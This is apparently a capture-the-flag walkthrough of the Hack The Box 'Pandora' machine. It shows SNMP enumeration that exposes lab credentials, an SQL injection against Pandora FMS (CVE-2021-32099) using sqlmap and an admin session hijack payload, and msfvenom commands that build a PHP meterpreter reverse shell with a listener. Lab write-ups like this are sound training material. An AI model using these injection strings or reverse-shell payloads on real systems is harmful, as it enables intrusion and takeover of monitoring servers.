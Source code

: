 # Pandora

1. Nmap TCP and UDP port with script
````
# nmap -sS -p- pandora.htb -oG 10.10.11.136-sS
# nmap -sU -p- pandora.htb -oG 10.10.11.136-sU
````

````
# snmpwalk -v2c -c public 10.10.11.136:161 1.3.6.1.2.1.25.4.2.1 > 10.10.11.136-snmpwalk
````

~iso.3.6.1.2.1.25.4.2.1.5.864 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"~

~iso.3.6.1.2.1.25.4.2.1.5.1107 = STRING: "-u daniel -p HotelBabylon23"~

2. Login into remote server
````
# ssh daniel@10.10.11.136
````

3. Enumerates
````
daniel@pandora:~$ ss -nlpt
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process         
LISTEN         0               80                           127.0.0.1:3306                        0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                          0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*                            
LISTEN         0               511                                  *:80                                *:*                            
LISTEN         0               128                               [::]:22                             [::]:*                            
daniel@pandora:~$ curl http://127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
````

4. Login redirecting the remote port
````
# ssh -L80:127.0.0.1:80 daniel@10.10.11.136
````

5. Enumarates
````
v7.0NG.742_FIX_PERL2020
````
- [CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099)
- [CVE-2020-5844](https://nvd.nist.gov/vuln/detail/CVE-2020-5844)

## CVE-2021-32099
6. Test the target system with malformed input values'    "   `   %    %%   --   /*   //    )    ;
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20%20%20%20%22%20%20%20`%20%20%20%%20%20%20%20%%%20%20%20--%20%20%20/*%20%20%20//%20%20%20%20)%20%20%20%20;

````sql
SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use 
near '" ` % %% -- /* // ) ;' LIMIT 1' at line 1 ('SELECT * FROM tsessions_php WHERE `id_session` = '' " ` % %% -- /* // ) ;' LIMIT 1') in
/var/www/pandora/pandora_console/include/db/mysql.php on line 114
````

````sql
sqlmap -u '127.0.0.1/pandora_console/include/chart_generator.php?session_id=*' --dbms=MySQL --sql-shell
sql-shell> SELECT * FROM tsessions_php WHERE `id_session` = ''OR `data` LIKE '%id_usuario|s:5:"admin";%'
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, gn7p2qba6310m05qn6iom3bvdf, 1642782084
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, hj8tgic0fv8hmmb19b3j851af5, 1642779787
````

7. Access the URL
````sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=PAYLOAD'OR `data` LIKE '%id_usuario|s:5:"admin";%
````

and then your user will be logged
````
http://127.0.0.1/pandora_console/
````

## CVE-2020-5844

8. Crie o payload e inicie o multi handler

````bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o payload.php
$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LPORT 4444; set LHOST tun0; exploit"
````




[OID repository](http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2.1.5)
